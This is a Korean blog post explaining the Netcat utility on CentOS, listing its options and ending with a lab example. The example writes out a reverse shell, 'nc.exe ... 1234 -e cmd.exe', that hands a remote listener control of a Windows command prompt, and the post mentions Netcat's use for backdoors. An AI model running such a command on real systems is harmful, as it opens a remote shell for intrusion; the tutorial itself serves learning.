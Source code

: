 ```yaml
---
layout: post
title:  "[CentOS] NC(NetCat)"
date:   2016-09-08 19:23:13
author: Choi HyeSun
categories: infra
tags:
  - CentOS
  - NC
  - NetCat
---
```


## NC(Netcat)

- Netcat(이하 nc)은 Network connection에서 raw-data read, write를 할 수 있는 유틸리티 프로그램

- 일반적으로는 UNIX의 cat과 비슷한 사용법을 가지고 있지만 cat이 파일에 쓰거나 읽듯이 nc는 network connection에 읽거나 씀

- 스크립트와 병용하여 network에 대한 debugging, testing tool로써 매우 편리

- 해킹에도 이용범위가 매우 넓음

- 임의의 TCP, UDP 포트에서 상대방 TCP, UDP로 데이터를 보내는 도구

- nc.exe 실행파일과 명령어를 통해 백도어 기능을 사용할 수 있음

<br>
<br>

## 사용법

- nc \[options] \[target host] \[ports]

- options

  - \-4: IPv4

  - \-6: IPv6

  - \-D: socket 디버깅 가능

  - \-d: STDIN 입력을 읽어들이지 않음

  - \-h: help

  - \-i: send/recv, multiple port 연결 사이의 interval 지정. 

  - \-k: listening 모드로 실행되었을 때 연결이 완료되더라도 프로세스가 종료되지 않도록 하는 옵션.
  <br>-l 옵션과 함께 사용되지 않으면 에러.

  - \-l: listening 모드로 실행. -p, -s, -z 옵션과 함께 사용되면 에러. -w 옵션은 무시됨.

  - \-n: hostname을 ip로만 지정.

  - \-p: source port 지정. -l 옵션과 함께 사용되면 에러.

  - \-r: source/destination port를 범위로 지정했을 때 랜덤한 순서로 연결시도.

  - \-S: RFC 2385 TCP MD5 signature 옵션.

  - \-s: 패킷을 전송할 IP 지정. -l 옵션과 함께 사용되면 에러.

  - \-T: 연결에 ToS 지정.

  - \-C: CRLF line-ending 전송.

  - \-t: netcat을 telnet session으로 사용가능 하게.

  - \-U: Unix Domain Socket을 사용하도록 지정.

  - \-u: UDP 사용.

  - \-v: 과정 출력

  - \-w: connection/stdin timeout 지정. -l 옵션과 함께 사용하면 무시됨. 

  - \-X: proxy version 지정.

  - \-x: proxy server의 hostname, port 지정.

  - \-z: 아무 데이터도 전송하지 않고 listening daemong만 스캔. -l 옵션과 함께 사용하면 에러.
 
<br>
<br>

## 예시

- 다음과 같은 환경 준비

  - Server : win7 / ip 192.168.10.64
  - Client : win XP / ip 192.168.10.22

  - 서버 및 클라이언트에 nc.exe 설치

  - IP 주소 확인

- 첫 번째. Server에서 1234포트를 열고 nc.exe를 실행한 후 대기

  - C:\\> nc.exe –lvp 1234
  
- 두 번째. Client가 Server의 1234 포트로 접속하여 nc.exe를 실행하고 cmd.exe의 권한을 서버에게 부여

  - C:\\> nc.exe 192.168.10.64 1234 –e cmd.exe
  
  - Server는 client의 cmd.exe 권한을 갖게 됨

- 세 번째. Server는 client의 cmd.exe를 통해 작업을 할 수 있음
 
  - C:\> ipconfig했을 때 Client의 IP 정보를 볼 수 있음
